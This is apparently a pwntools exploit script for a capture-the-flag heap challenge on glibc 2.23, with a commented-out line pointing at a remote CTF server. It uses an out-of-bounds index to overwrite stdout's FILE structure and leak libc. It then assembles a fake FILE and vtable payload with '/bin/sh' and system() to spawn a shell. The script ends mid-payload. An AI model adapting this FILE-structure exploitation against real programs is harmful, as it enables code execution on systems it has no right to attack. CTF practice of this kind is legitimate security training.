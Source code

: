 ```plain
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')



def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    sla('5.exit\n',str(1))
    sla('Input the size:\n',str(size))
    sa('Input the content:\n',content)

def delete(idx):
    sla('5.exit\n',str(2))
    sla('Input the index:\n',str(idx))

def edit(idx,size,content):
    sla('5.exit\n',str(4))
    sla('Input the index:\n',str(idx))
    sla('Input size:\n',size)
    sa('Input new content:\n',content)

add(0x100,'a') #0
pl=p64(0xfbad1887)+p64(0)*3+b'\x00'
edit(-0x10,0xa0,pl) #
libc_base=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3c36e0
leak('libc_base',libc_base)
leak('_IO_save_base',libc.symbols['system']+libc_base)
leak('lock',libc_base+0x3c6780)
leak('vtable',libc_base+libc.symbols['_IO_2_1_stdout_']+0x10)

pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
    ])
```
